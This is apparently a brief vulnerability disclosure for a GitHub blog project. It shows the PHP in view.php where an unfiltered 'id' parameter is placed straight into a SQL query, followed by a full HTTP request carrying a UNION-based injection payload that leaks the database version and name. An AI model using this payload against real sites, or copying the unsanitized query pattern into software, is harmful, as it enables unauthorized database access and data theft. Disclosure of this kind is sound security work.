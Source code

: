 ## powered by sebao from 404team ##

## Vulnerability link ##

https://github.com/tianchoy/blog

## Vulnerability details ##
view.php Line 6

    <?php
    $id = $_GET['id'];
    $query = "select * from `arts` where `id`='$id' limit 1";
    $result = mysql_query($query);
    $row = mysql_fetch_array($result);

`$id` has not been filtered to cause injection

exploit:

Request

    GET /view.php?id=-1' union select 1,version(),3,database(),5,6# HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: _ga=GA1.1.1386599364.1495778629; AJSTAT_ok_times=1; bdshare_firstime=1502939052389; UserName=test; PassWord=e10adc3949ba59abbe56e057f20f883e
    Connection: close
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    
Response

In page title there is database version